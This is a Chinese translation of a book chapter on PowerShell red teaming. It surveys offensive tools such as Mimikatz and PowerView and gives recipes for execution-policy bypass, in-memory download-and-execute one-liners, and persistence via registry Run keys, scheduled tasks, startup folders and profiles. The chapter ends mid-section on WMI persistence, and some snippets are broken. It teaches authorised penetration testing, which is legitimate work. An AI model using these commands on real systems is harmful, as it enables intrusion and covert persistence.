


# 第八章：红队任务与食谱

本章旨在为红队成员提供一个快速参考，帮助他们使用 PowerShell 进行任务。虽然内容不完整，但应当能帮助你入门。

在简要介绍攻击阶段后，我们将讨论红队成员在基于 PowerShell 的任务中通常使用哪些工具。接下来，我们将提供一个 PowerShell 食谱，涵盖大多数典型的红队场景。

本章将讨论以下主题：

+   攻击的阶段

+   常用 PowerShell 红队工具

+   红队食谱

# 技术要求

为了充分利用本章内容，请确保你具备以下条件：

+   Windows PowerShell 5.1

+   PowerShell 7.3 及以上版本

+   已安装 Visual Studio Code

+   本章 GitHub 仓库的访问链接：[`github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/tree/master/Chapter08`](https://github.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/tree/master/Chapter08)

# 攻击的阶段

当谈到攻击时，通常会重复相同的模式。这些阶段也反映在由红队员执行的专业渗透测试中。

以下图表展示了攻击的各个阶段：



图 8.1 – 攻击的各个阶段

在第一阶段，称为**侦察**阶段，红队员尽力收集关于目标的尽可能多的信息。一旦该阶段完成，便会识别出可以用于**利用**并获取目标访问权限的漏洞（**漏洞识别**）。

一旦成功利用了一个目标，通常会收集凭证，这些凭证可以用于**横向移动**并收集更多身份信息。**后渗透**的一部分是获得**持久性**，这意味着红队成员可以在不需要再次利用漏洞的情况下重新连接。

横向移动还可以通过发现更多可利用的漏洞来实现，例如，通过发现并利用其他连接系统中的漏洞，这些系统不能通过主要入口点访问，也不能仅通过收集和滥用身份信息来轻易达到。

在横向移动时，目标通常是寻找具有高权限的非常有价值的身份，例如域管理员账户，接着可以利用该身份控制整个环境，达到参与的实际**目标**：在现实世界的对抗场景中，这可能是加密所有可能的系统以勒索赎金（如**勒索软件**所做的那样），或者尽可能长时间地保持在环境中不被检测到，以**提取信息**。

最后但同样重要的是，攻击者会在真实世界的场景中尝试**掩盖他们的踪迹**。这个步骤——当然——在我们讨论渗透测试时并不必要；在这种情况下，渗透测试人员通常会在最后一步写一份**报告**来呈现他们的发现。

所有这些步骤听起来可能相当耗时，但实际上，大部分步骤已经被编写成脚本，只需要几个小时甚至几分钟，整个环境就可以被攻破。只要攻击没有开始，攻击者就有足够的时间进行侦察，尽可能多地了解目标并做好准备。

一旦第一个主机被攻破，通常不会超过 24 到 48 小时，域管理员账户就会被攻破。但通常情况下，根据组织和行业的不同，发现实际攻击发生通常需要一段时间……如果能够检测到的话……

如果攻击者正在发起勒索软件攻击活动，一旦他们开始加密系统并要求赎金，通常不会不被注意。但通常，他们仍会在攻击准备阶段保持隐匿一段相当长的时间。

对于红队成员来说，PowerShell 是一个非常棒的工具，因为它内置于每个现代 Windows 操作系统中，并提供了远程命令执行的机制。它还通过 WMI 和 .NET Framework 提供了对系统 API 的完全访问，可以用于无文件代码执行，这意味着恶意代码可以在内存中执行，而无需写入磁盘。此外，它还可以用来规避**杀毒软件**（**AV**）以及**入侵防御系统**（**IPS**）。

尽管红队成员可以利用许多命令来实现他们的目的，但也有大量的开源工具提供了多种功能，这些功能在红队任务和现实世界中的攻击场景中都非常有帮助。

# 常见的 PowerShell 红队工具

已经发布了许多 PowerShell 编写的工具，能够帮助你完成红队任务——这些工具太多了，以至于你不可能使用每一个。在本节中，我们将介绍一些最著名且有帮助的工具，帮助你入门，并为你提供一个概览，看看有哪些工具可以为你提供帮助。

## PowerSploit

`PowerSploit` 是一套 PowerShell 模块和脚本，旨在帮助红队成员在渗透测试过程中使用。最初由 Matt Graeber 开发。虽然它不再受到支持，但仍有许多有用的工具和脚本可以派上用场。PowerSploit 可以从 GitHub 下载：https://github.com/PowerShellMafia/PowerSploit。

虽然大多数功能在 Windows PowerShell 中工作正常，但在 PowerShell 7 及以上版本中并不适用。PowerSploit 使用的某些功能是基于.NET Framework 的，而这些功能并未移植到 PowerShell 7 所依赖的.NET Core 中。因此，在 PowerShell 7 及以上版本中运行 PowerSploit 时，您可能会遇到错误。因此，本章演示时我们将使用 Windows PowerShell。

PowerSploit 是一个非常广泛的工具集，因此我们不会深入探讨它。它包含几个子文件夹，将其 PowerShell 模块分为以下类别：

+   `CodeExecution`

+   `ScriptModification`

+   `Persistence`

+   `AntivirusBypass`

+   `Exfiltration`

+   `Mayhem`

+   `Privesc`（权限提升）

+   `Recon`（侦察）

您可以选择将整个集合作为模块加载，或仅加载其中的部分内容；也可以将其中一个子文件夹复制并粘贴到您的模块文件夹中，然后加载它。

与往常一样，您可以通过运行以下命令查找 PowerSploit 的所有相关功能和别名：

```
Get-Command -Module PowerSploit
```

为了充分利用它，您可以参考官方文档：[`powersploit.readthedocs.io/en/latest/`](https://powersploit.readthedocs.io/en/latest/)。

PowerSploit 中的一个值得重新审视的工具是 PowerView。

### PowerView

您可以在 GitHub 上的`Recon`文件夹中找到`PowerView`脚本：[`github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1`](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1)。

您可以选择导入并加载整个`Recon`文件夹，或者只下载并运行`PowerView.ps1`脚本，这在您需要从内存而非磁盘执行有效载荷时，可能会更方便。

PowerView 有许多内置功能，其中一些功能如下：

+   列举和收集有关域、**域控制器**（**DCs**）、用户、组、计算机、全局目录、目录服务站点和信任的信息

+   列举域资源的权限和访问控制

+   确定特定域中用户登录的位置以及当前用户可以访问的机器

您可以在官方文档中找到 PowerView 的完整概述：[`powersploit.readthedocs.io/en/latest/Recon/`](https://powersploit.readthedocs.io/en/latest/Recon/)。

## Invoke-Mimikatz

`Mimikatz`是网络安全领域的一个知名工具。它帮助您从**本地安全机构**（**LSA**）提取并重用凭据，如哈希值或票证，这使得红队人员可以进行`Pass-the-Hash`（**PtH**）或`Pass-the-Ticket`（**PtT**）攻击。

Mimikatz 本身是由 Benjamin Delpy 用 C 编写的。然而，Joseph Bialek 成功地将其封装成一个 PowerShell 脚本，并将其包含在 PowerSploit、Nishang 和许多其他工具包中。我相信，当我写这本书时，Nishang 中托管的脚本是我能找到的最新版本：[`raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1`](https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Invoke-Mimikatz.ps1)。

在将 `Invoke-Mimikatz.ps1` 脚本加载到当前会话中后，只需在 PowerShell 命令行执行 `Invoke-Mimikatz` 即可调用 Mimikatz 的功能。

有关官方 Mimikatz 文档，请参考 C 版本 Mimikatz 的 GitHub 仓库：[`github.com/gentilkiwi/mimikatz`](https://github.com/gentilkiwi/mimikatz)。

在写作时，Mimikatz 已经为防御者和反恶意软件解决方案广为人知，因此你不应当仅仅假设 `Invoke-Mimikatz` 会在不被检测或警报的情况下正常工作。为了使其成功运行，你需要对其进行混淆——即使如此，它仍然很可能会被检测到。

## Empire

`PowerShell Empire` 是一个后渗透框架，由 Will Schroeder、Justin Warner、Matt Nelson、Steve Borosh、Alexander Rymdeko-Harvey 和 Chris Ross 开发。虽然现在已经不再维护，但它仍然包含许多有用的功能。

它的构建目的是为红队成员提供一个平台，用于执行后渗透任务，类似于 Metasploit，并包含以下特性：

+   生成有效负载以攻陷系统的能力。

+   导入并使用第三方工具（如 Mimikatz）的能力。

+   一个**命令与控制**（**C2**）服务器，可用于与被攻陷的主机进行通信。

+   一组可以用于多种任务的后渗透模块库，例如信息收集、权限提升和建立持久性。

Empire 可以从 GitHub 下载：[`github.com/EmpireProject/Empire`](https://github.com/EmpireProject/Empire)。

为了快速入门，甚至提供了一个快速入门指南：[`github.com/EmpireProject/Empire/wiki/Quickstart`](https://github.com/EmpireProject/Empire/wiki/Quickstart)。

## Inveigh

`Inveigh` 是一个 .NET 平台下的 IPv4/IPv6 中间人工具，由 Kevin Robertson 开发。它最初是在 PowerShell 中开发的，但后来被移植到了 C#，从而使其支持跨平台使用。Inveigh 的最新 PowerShell 版本是 1.506，且在写作时已不再开发，但仍然可以在 GitHub 上获取。最新的 C# 版本是 2.0.9。

以下是 PowerShell 版本的主要特性：

+   域名系统（DNS）/活动目录集成 DNS（ADIDNS）/链接本地多播名称解析（LLMNR）/多播 DNS（mDNS）/NetBIOS 名称服务（NBNS）欺骗。

+   Inveigh 可以通过 .NET 数据包嗅探监听并响应 LLMNR/mDNS/NBNS 请求。

+   Inveigh 可以捕获通过 SMB 进行的 NTLMv1/NTLMv2 认证尝试。

+   Inveigh 提供 HTTP/HTTPS/代理监听器，用于捕获传入的认证请求。

它可以从 GitHub 下载：https://github.com/Kevin-Robertson/Inveigh。

## PowerUpSQL

`PowerUpSQL`是由 Scott Sutherland 开发的 PowerShell 模块，用于攻击 SQL 服务器。尽管它提供了多种可能性，但目前尚不支持 SQL 注入。

以下是 PowerUpSQL 功能的概览：

+   枚举 SQL Server 实例和数据库，以及用户、角色和权限。

+   弱配置审计

+   权限提升和获取系统级访问权限。

您可以在 GitHub 上找到此项目及其文档：https://github.com/NetSPI/PowerUpSQL。

## AADInternals

`AADInternals`是由 Nestori Syynimaa 开发的一个广泛的 PowerShell 模块，提供了丰富的功能，用于管理、枚举和利用 Azure AD 和 Office 365 环境。

它的一些特性如下：

+   枚举 Azure AD 和 Office 365 环境；审查并修改权限和访问权。

+   创建后门用户。

+   提取凭证，如 PRT（持久令牌）。

+   提取或更改 Azure AD 连接器帐户密码。

+   篡改认证选项。

+   提取加密密钥。

+   在 Azure AD 中创建用户。

+   以及更多。

您可以通过 PowerShell 命令行简单地使用`Install-Module AADInternals`来安装它。您可以从 PowerShell Gallery 下载： https://www.powershellgallery.com/packages/AADInternals/。

您也可以在 GitHub 上找到该项目：https://github.com/Gerenios/AADInternals。

# 红队工具书

在本节中，您将找到一些适用于红队任务的便捷代码片段。请同时参考*第九章*，*蓝队任务与工具书*，在那里您将找到许多蓝队员的代码片段和脚本。这些有时也对红队员有所帮助。

请注意，这本工具书并不是一个完整的红队参考资料，因为那样会填满一本书。它的目的是作为一个有用的资源，帮助您开始进行与 PowerShell 相关的红队任务。

为了让刚接触网络安全的人更容易理解，本工具书已根据`MITRE ATT&CK`领域进行分类。请注意，您在本工具书中找不到*所有*的 MITRE ATT&CK 领域。

您可以在官方 MITRE 网页上找到完整的 MITRE ATT&CK 企业矩阵：https://attack.mitre.org/matrices/enterprise/。

## 侦察

通常，每次攻击都始于侦察，这是敌对方收集目标系统、网络或组织信息的初始阶段。每一小块信息都有助于规划攻击的下一阶段，获得洞察和知识，识别有价值的目标，从而执行更有针对性和成功的攻击或评估。

### 查找 AAD/Entra ID 用户是否存在并查看其特定于云的详细信息。

你想查找是否存在 Azure/Entra ID 用户，并希望查看他们的云端详细信息。你还想了解是否使用了联合 Active Directory，或者公司是否使用了 O365。

#### 解决方案

为此，你可以查询其中一个 Azure AD/Entra ID 的 API：

```
> $AadInfo = Invoke-WebRequest "https://login.microsoftonline.com/getuserrealm.srf?login=PSSec-User@PSSec-Demo.onmicrosoft.com&xml=1"
> ([xml]$ AadInfo.Content).RealmInfo
```

你可以在 *第七章* 中找到更多关于这个 API 以及它返回的 XML 值的信息，*黑客云端 – 利用 Azure Active* *Directory/Entra ID*。

## 执行

在攻击的执行阶段，攻击者会进行恶意活动。执行阶段可以与其他阶段结合，如执行混淆的 PowerShell 命令，用于收集另一台主机的更多信息。

### 绕过执行策略

你遇到了一个执行策略被强制执行的系统；它们阻止你运行脚本，所以你想要绕过它们。

配置执行策略有多种方式：可以在本地配置，或通过组策略等管理解决方案进行配置。根据配置方式的不同，解决方案也有所不同。

#### 解决方案

如 *第一章* 中详细讨论的那样，*PowerShell 入门*，执行策略并非一种安全控制，不会阻止对手运行恶意代码。它只是一个功能，用来防止用户不小心执行脚本。然而，有多种方法可以避免执行策略。

如果执行策略*没有*通过组策略强制执行，你可以轻松地将其设置为 `Unrestricted`，前提是你是本地管理员：

```
> Set-ExecutionPolicy Unrestricted
```

如果你*不是*本地管理员，并且执行策略*没有*通过 GPO 强制执行（仅本地设置），你可以使用以下代码：

```
> powershell.exe -ExecutionPolicy Bypass -File script.ps1
> Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope CurrentUser
```

无论你是否是本地管理员，也无论执行策略如何配置，这些命令始终有效，并会运行你的代码：

```
> echo <command> | PowerShell.exe -noprofile –
> Get-Content ./script.ps1 | PowerShell.exe -noprofile –
> powershell.exe -command <command>
> Invoke-Command -scriptblock {<command>}
> Invoke-Expression -Command <command>
```

针对此问题有许多解决方案，且这里并未列出所有方案。如果你想绕过执行策略，这不应该成为问题，并且可以通过多种方式轻松实现。

### 打开 PowerShell 命令行以执行命令

你想直接将命令传递给一个新的 PowerShell 会话，而无需打开新的 shell 并键入命令。

#### 解决方案

你可以通过使用 `powershell.exe` 配合 `-c**/**-Command` 参数，后跟你的命令，来实现这一点：

```
> powershell.exe -c <command>
> powershell.exe -Command <command>
```

`-c` 选项将执行所提供的命令，并将其包装在双引号中，就像在 PowerShell 提示符下键入一样。

### 避免从 PowerShell 用户配置文件加载设置

PowerShell 用户配置文件包含不希望出现的设置，你需要避免它们。

#### 解决方案

使用 `-NoProfile` 或 `-nop` 参数，这样 PowerShell 就不会加载 PowerShell 用户配置文件。`-nop` 参数是 `-NoProfile` 的简写：

```
> powershell.exe -nop -c <command>
> powershell.exe -NoProfile -c <command>
```

### 使用 PowerShell cmdlet 下载文件

你想将一个文件下载到系统中的指定文件夹。

#### 解决方案

使用 PowerShell cmdlet 下载文件有多种方法：

+   `Invoke-WebRequest`

对于以下所有示例，请下载以下脚本，可在[`raw.githubusercontent.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/master/Chapter01/HelloWorld.ps1`](https://raw.githubusercontent.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-CyberSecurity/master/Chapter01/HelloWorld.ps1)找到，并将其保存到 C:\Users\Administrator\Downloads\HelloWorld`.ps1`路径。

要使用`Invoke-WebRequest`下载文件，您可以使用以下代码片段：

```
Invoke-WebRequest -Uri <source> -OutFile <destination>
```

确保您适当地替换`<source>`和`<destination>`，分别表示文件的来源和下载位置，如下例所示：

```
> Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/master/Chapter01/HelloWorld.ps1' -OutFile 'C:\Users\Administrator\Downloads\HelloWorld.ps1'
```

也可以使用其别名`iwr`：

```
> iwr -Uri 'https://raw.githubusercontent.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/master/Chapter01/HelloWorld.ps1' -OutFile 'C:\Users\Administrator\Downloads\HelloWorld.ps1'
```

+   `Invoke-RestMethod`

您还可以使用`Invoke-RestMethod`从互联网返回脚本的内容：

```
iex (Invoke-RestMethod '<url>' )
```

`Invoke-RestMethod`旨在从**表述性状态转移**（**REST**）Web 服务中检索数据。根据数据类型，PowerShell 相应地格式化答案：如果是`JSON`或`XML`文件，则内容以`[PSCustomObject]`形式返回，但也可以检索和返回单个项目，如下例所示：

```
> Invoke-RestMethod -Uri 'https://raw.githubusercontent.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/master/Chapter01/HelloWorld.ps1'
```

在这种情况下，文件将不会被下载；而是作为输出显示。

+   `Start-BitsTransfer`

要使用`Start-BitsTransfer`下载文件，您可以使用以下代码片段：

```
Start-BitsTransfer -Source <source> -Destination <destination>
```

确保您适当地替换`<source>`和`<destination>`，分别表示文件的来源和下载位置，如下例所示：

```
> Start-BitsTransfer -Source 'https://raw.githubusercontent.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/master/Chapter01/HelloWorld.ps1' -Destination 'C:\Users\Administrator\Downloads\HelloWorld.ps1'
```

### 下载文件并在内存中执行

您想要下载一个文件，但不是将其保存到磁盘，而是在内存中执行它。

请注意安全性影响：如果您下载并执行一个您无法控制的脚本，对手可以替换内容，这可能导致运行任意代码。

还需要注意，即使内存中的方法可能看起来更隐蔽，由于 PowerShell 的安全透明性和出色的事件记录，它并不能完全保证隐匿性。

#### 解决方案

您可以使用以下代码片段实现这一点：

```
> Invoke-Expression (Invoke-WebRequest -Uri '<url to script>')
> iex(Invoke-WebRequest -Uri '<url to script>')
> iex(Invoke-WebRequest -Uri '<url to script>'); <command from script>}
```

请注意，在此示例中，我们使用`Invoke-WebRequest`下载脚本，但您也可以使用任何其他允许您下载脚本的选项。使用`Invoke-Expression`或其别名`iex`，您可以直接执行脚本。

甚至可以在运行脚本时执行从脚本中导出的命令。

在这个示例中，我们将使用来自`Chapter01`的`HelloWorld.ps1`脚本：[`raw.githubusercontent.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/master/Chapter01/HelloWorld.ps1`](https://raw.githubusercontent.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/master/Chapter01/HelloWorld.ps1)。

以下示例展示了你如何简单地下载并执行文件：

```
> iex(Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/master/Chapter01/HelloWorld.ps1')
```

使用这个示例，你可以下载并执行`PowerView`，直接运行`Get-NetDomain`命令，该命令包含在`PowerView`中：

```
> iex(Invoke-WebRequest -Uri 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1'); Get-NetDomain
```

### 使用 COM 下载并执行文件

你想要通过 COM 对象从互联网下载并执行文件。

#### 解决方案

在这个示例中，我们将使用来自`Chapter01`的`HelloWorld.ps1`脚本：[`raw.githubusercontent.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/master/Chapter01/HelloWorld.ps1`](https://raw.githubusercontent.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-CyberSecurity/master/Chapter01/HelloWorld.ps1)。

你可以使用以下代码片段来实现你的目标：

```
$Url = "https://raw.githubusercontent.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/master/Chapter01/HelloWorld.ps1"
$HttpRequest = New-Object -ComObject Microsoft.XMLHTTP
$HttpRequest.open('GET', $Url, $false)
$HttpRequest.send()
iex $HttpRequest.responseText
```

你也可以更改请求的用户代理：

```
$HttpRequest.SetRequestHeader("User-Agent", "1337")
```

只需在发送请求之前执行前面的命令——当然，首先修改它以反映你选择的用户代理。

### 使用.NET 类下载并执行文件

你想要使用.NET 类从互联网下载并执行文件。

#### 解决方案

使用 PowerShell cmdlet 下载文件有多种方法：

+   `System.Net.WebClient`

要使用`System.Net.WebClient`类下载文件，可以使用以下代码片段：

```
(New-Object System.Net.WebClient).DownloadFile(<source>, <destination>)
```

确保适当替换`<source>`和`<destination>`，分别为文件的源位置和应该下载到的位置。

在这个示例中，我们将使用来自`Chapter01`的`HelloWorld.ps1`脚本：[`raw.githubusercontent.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/master/Chapter01/HelloWorld.ps1`](https://raw.githubusercontent.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-CyberSecurity/master/Chapter01/HelloWorld.ps1)。

以下示例展示了如何将`HelloWorld.ps1`脚本下载到管理员的**下载**文件夹：

```
> $Url = "https://raw.githubusercontent.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/master/Chapter01/HelloWorld.ps1"
> $OutputFile = "C:\Users\Administrator\Downloads\HelloWorld.ps1"
> (New-Object System.Net.WebClient).DownloadFile($Url, $OutputFile)
```

如果你想从互联网执行文件，而不将其实际保存为文件，你还可以使用`DownloadString()`：

```
> iex((New-Object System.NET.WebClient).DownloadString(<source>))
```

我们可以使用以下代码从 GitHub 仓库执行我们的脚本：

```
> $Url = "https://raw.githubusercontent.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/master/Chapter01/HelloWorld.ps1"
> iex((New-Object System.NET.WebClient).DownloadString($Url))
```

使用这种方法，你还可以更改用户代理：

```
$Url = "https://raw.githubusercontent.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/master/Chapter01/HelloWorld.ps1"
$WebClient = New-Object System.NET.WebClient
$WebClient.Headers.Add("user-agent", "1337")
iex(($WebClient).DownloadString($Url))
```

请注意，用户代理需要在*每次*请求之前设置。

+   `System.Xml.XmlDocument`

你还可以加载 XML 文档并执行特定的节点。这在节点中的命令被编码时特别有用。

在这个示例中，我们将使用一个 XML 文件，你可以在本书的 GitHub 仓库中找到它：[`raw.githubusercontent.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/master/Chapter08/XmlDocument-Demo.xml`](https://raw.githubusercontent.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-CyberSecurity/master/Chapter08/XmlDocument-Demo.xml)。

首先，我们必须将 XML 文件的 URL 加载到 `$****Xml` 变量中：

```
> $Url = "https://raw.githubusercontent.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/master/Chapter08/XmlDocument-Demo.xml"
> $Xml = New-Object System.Xml.XmlDocument
> $Xml.Load($Url)
```

一旦 XML 对象可用，你可以轻松访问节点并执行保存在 XML 文件中的命令：

```
> $Xml.xml.node1.HelloWorld | iex
> $Xml.xml.othernode | iex
```

+   `System.NET.WebRequest`

下载并仅在内存中执行脚本的最佳方法是使用 `System.NET.WebRequest` 类。

对于这个示例，我们将使用 **第一章** 中的 `HelloWorld.ps1` 脚本：[`raw.githubusercontent.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/master/Chapter01/HelloWorld.ps1`](https://raw.githubusercontent.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-CyberSecurity/master/Chapter01/HelloWorld.ps1)。

以下代码片段展示了如何创建一个 web 请求来获取 `HelloWorld.ps1` 脚本的内容并在内存中执行它：

```
> $Url = "https://raw.githubusercontent.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/master/Chapter01/HelloWorld.ps1"
> $WebRequest = [System.NET.WebRequest]::Create($Url)
> $Response = $WebRequest.GetResponse()
> iex (System.IO.StreamReader)).ReadToEnd()
```

通过创建并发送 web 请求，也可以设置自定义用户代理：

```
> $Url = "https://raw.githubusercontent.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/master/Chapter01/HelloWorld.ps1"
> $webRequest = [System.NET.WebRequest]::Create($Url)
> $webRequest.UserAgent = "1337"
> $Response = $WebRequest.GetResponse()
> iex (System.IO.StreamReader)).ReadToEnd()
```

### 从 PowerShell 执行 C# 代码

你希望从 PowerShell 执行自定义的 C# 代码。

#### 解决方案

有多种方法可以从 PowerShell 执行 C# 代码。其中一种方法是使用 `Add-Type` cmdlet 加载并运行你自己的 .NET Framework 类：

```
$source = @"
using System;
public class SayHello
{
    public static void Main()
    {
        Console.WriteLine("Hello World!");
    }
}
"@
Add-Type -TypeDefinition $source -Language CSharp
[SayHello]::Main()
```

在这个示例中，我首先在 `$Source` 变量中定义了一个小的 C# 代码片段。通过使用 `Add-Type`，C# 类被加载到内存中。现在，我们可以直接通过 PowerShell 访问 C# 函数，而无需编译 C# 代码。通过执行 `[SayHello]::Main()`，`Hello World!` 字符串将被写入输出。

还有其他方法可以从 PowerShell 执行 C# 代码。请参阅*第六章*，*活动目录 – 攻击与缓解*，了解更多信息。

## 持久化

一旦系统成功被攻破，攻击者会希望建立持久性，以确保他们的恶意代码会自动执行，从而不会失去对系统的控制。有多种方法可以建立持久性。我们将在接下来的章节中探讨其中的一些方法。

### 使用注册表建立持久性

你希望确保你的 PowerShell 代码在启动时自动执行，并希望使用注册表来实现这一目的。

#### 解决方案

你可以通过在 `HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run` 注册表路径下创建一个注册表项来实现这一点：

```
> New-ItemProperty -Path "<registry path>" -Name "<name>" -PropertyType String -Value "<powershell command>"
```

这个示例展示了如何创建一个注册表项来运行 `C:\windows\system32\HelloWorld.ps1` 脚本，同时使用 PowerShell 作为自动运行脚本：

```
> New-ItemProperty -Path "REGISTRY::HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run" -Name "NotSuspiciousAtAll" -PropertyType String -Value "powershell.exe -NonInteractive -WindowStyle Hidden -Execution-Policy ByPass -File 'C:\windows\system32\HelloWorld.ps1'"
```

该命令存储在`NotSuspiciousAtAll`下；每当自动启动被触发时，脚本将在 PowerShell 中以非交互和隐藏的命令行执行，并且配置为绕过执行策略。

### 使用启动文件夹建立持久性

你想通过使用启动文件夹来建立持久性。使用这种方法，建立持久性简单，但也容易被检测到。

#### 解决方案

你可以将你的脚本添加到以下启动文件夹之一：

+   `$****env:PROGRAMDATA\Microsoft\Windows\Start Menu\Programs\Startup`

+   `$****env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup`

+   `$****env:ALLUSERSPROFILE\Microsoft\Windows\Start Menu\Programs\StartUp`

你可以直接将其下载到启动文件夹中，如下所示：

```
$path = "$env:APPDATA\Microsoft\Windows\Start Menu\Programs\Startup"
if( -Not (Test-Path -Path $path )) {
        New-Item -ItemType directory -Path $path
}
iwr -Uri "https://raw.githubusercontent.com/PacktPublishing/PowerShell-Automation-and-Scripting-for-Cybersecurity/master/Chapter01/HelloWorld.ps1" -OutFile "$path\HelloWorld.ps1"
```

或者，你可以创建一个新文件并填充内容：

```
$path = "$env:PROGRAMDATA\Microsoft\Windows\Start Menu\Programs\Startup\HelloWorld.ps1"
New-Item -Path $path -ItemType File
Add-Content -Path $path -Value "Write-Host 'Hello World!'"
```

### 使用计划任务建立持久性

你想通过使用计划任务来建立持久性。

#### 解决方案

你可以使用`schtasks`来创建一个计划任务：

```
> schtasks /create /tn "NotSuspiciousAtAll" /tr "powershell.exe -ExecutionPolicy Bypass -File C:\windows\system32\HelloWorld.ps1" /sc onstart
```

`/create` 参数表示你想要创建一个新的计划任务。使用`/tn`，你可以指定任务名称。红队成员和攻击者通常会尝试选择一个不会引起怀疑且如果蓝队调查时容易被忽视的名称。使用`/tr`，你可以指定在执行该计划任务时应运行的命令；`/sc` 定义任务的执行时间。在这种情况下，任务被设置为每次系统启动时执行。

### 使用 PowerShell 配置文件建立持久性

你想通过 PowerShell 配置文件来建立持久性。此方法较难被检测到，但如果在 PowerShell 启动时指定了 `-noprofile`，你的脚本将不会运行；然而，使用此方法也意味着它只有在用户运行 PowerShell 时才会触发——而在很多情况下，用户可能永远不会运行 PowerShell。

#### 解决方案

PowerShell 支持每个用户的配置文件，这意味着每个用户都有自己的配置文件，一旦他们启动 PowerShell 会话，就会加载该配置文件。这些配置文件通常存储在 `C:\Users\<USERNAME>\Documents\WindowsPowerShell\Microsoft.PowerShell_profile.ps1` 下。

如果你想将内容添加到当前用户的配置文件中，可以使用 `-Path $Profile` 并添加你的脚本或命令：

+   将脚本添加到当前配置文件：

    ```
    Add-Content -Path $Profile -Value "C:\path\to\script.ps1"
    ```

+   添加命令以执行当前配置文件：

    ```
    Add-Content -Path $Profile -Value "Invoke-Command ..."
    ```

要将你的有效负载添加到当前主机的每个用户配置文件中，你还可以遍历所有用户配置文件并添加你的脚本或命令：

```
$profiles = Get-ChildItem -Path "C:\Users" -Filter "Profile.ps1" -Recurse
foreach ($profile in $profiles) {
    Add-Content -Path $profile.FullName -Value "C:\windows\system32\HelloWorld.ps1"
}
```

在这个例子中，首先，我们会在 `C:\User` 文件夹中查找所有 PowerShell 用户配置文件，遍历它们并添加 `HelloWorld.ps1` 脚本，该脚本位于 `C:\windows\system32\` 下。

此外，还有一个适用于系统上所有用户的全局配置文件，位于 `$PSHOME\Profile.ps1` 下。`$PSHOME` 是一个自动变量，包含 PowerShell 安装目录的路径：

```
> Add-Content -Path "$PSHOME\Profile.ps1" -Value "C:\path\to\script.ps1"
```

这个命令将编辑全局配置文件，并将你的脚本添加进去，以便每次在此主机上启动 PowerShell 会话时执行。

根据系统或场景的不同，还有其他几种配置文件。你可以在官方文档中找到有关配置文件的更多信息：https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_profiles。

### 使用 WMI 建立持久性

你希望通过 WMI 建立持久性。这是最隐蔽的方法之一，也作为 PowerSploit 中的一项功能提供。

#### 解决方案

要通过 WMI 建立持久性，可以注册一个永久的事件过滤器和消费者，它们将在系统上定期运行，除非被注销。此部分将展示如何实现这一点。

首先，创建一个 WMI 事件过滤器，指定需要发生的事件以触发脚本运行：

```
